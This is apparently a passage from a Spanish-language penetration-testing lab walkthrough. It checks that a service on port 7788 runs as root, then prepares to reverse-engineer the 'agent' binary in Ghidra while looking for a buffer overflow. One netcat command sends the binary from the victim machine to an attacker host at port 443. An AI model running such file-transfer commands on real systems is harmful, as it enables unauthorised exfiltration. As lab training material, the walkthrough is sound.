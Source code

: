 Con esto trataremos de ver **que usuario es el que corre el servicio** desde otra consola ya que podríamos listarlo porque lo tenemos abierto. Otra alternativa que es más fácil es utilizando ``nc localhost 7788 & disown`` para dejar en segundo plano el servicio y poder verlo con el ``ps -faux``

![[VM 12.png]]

De esta forma verificamos que el usuario que está ejecutando dicho servicio es **root**, esto se debe a que el propietario es este usuario. Por lo tanto cuando nosotros ingresamos a el con ``nc localhost 7788`` estaríamos ejecutando el binario como **root** a pesar de que este **no posea permisos SUID**.

#### Utilización de herramienta Ghidra 

Lo que vamos a hacer ahora es traernos el binario a nuestra máquina local y analizarlo con la herramienta ``ghidra`` creada por la **NSA** (*Agencia de Seguridad Nacional de los Estados Unidos*), que sirve para hacer ingeniería inversa y ver a bajo nivel el contenido de determinados binarios. Esta herramienta la podemos descargar a través de su web oficial [Ghidra](https://ghidra-sre.org/) 

![[VM 13.png]]

Luego en la consola hacemos uso de ``unzip`` para descomprimirlo.

Nos vamos a pasar el binario ``agent`` ubicado en ``/usr/local/bin/agent`` a nuestra máquina de atacante, esto colocando ``nc 192.168.0.194 443 < /usr/local/bin/agent``  en la máquina victima y esto ``nc -nlvp > agent`` en nuestra máquina. Luego faltaría darle permisos de ejecución y comprobar que se ejecuta correctamente.

------

Una vez tengamos el binario ``agent`` en nuestra máquina vamos a ir a la herramienta **Ghidra** y lo subiremos allí, esto se hace clickeando arriba a la izquierda en ``File/New Project/Non-Shared Project``

![[VM 14.png]]

Una vez hecho esto le daremos a ``File/Import file`` e importaremos el binario ``agent``, luego **arrastraremos este binario al icono del dragón** de la parte superior izquierda.

![[VM 15.png]]

Analizaremos el código porque queremos ver **como está estructurado** para en caso de que detecte un posible **Buffer Overflow**, algún punto de inyección de comandos o por ejemplo el **Agent ID** que nos pide el binario ``agent`` al ser ejecutado, poder manipular todo correctamente ya que la herramienta Ghidra es más interactiva a nivel visual.

![[VM 16.png]]

Luego le damos nuevamente a Analyse y nos dirigimos a la pestaña *Symbol Tree* específicamente al directorio ``Functions/main``

![[VM 17.png]]

Ahora procedemos a analizar el código en la búsqueda de alguna función que sea vulnerable frente a **Desbordamiento del Buffer**.
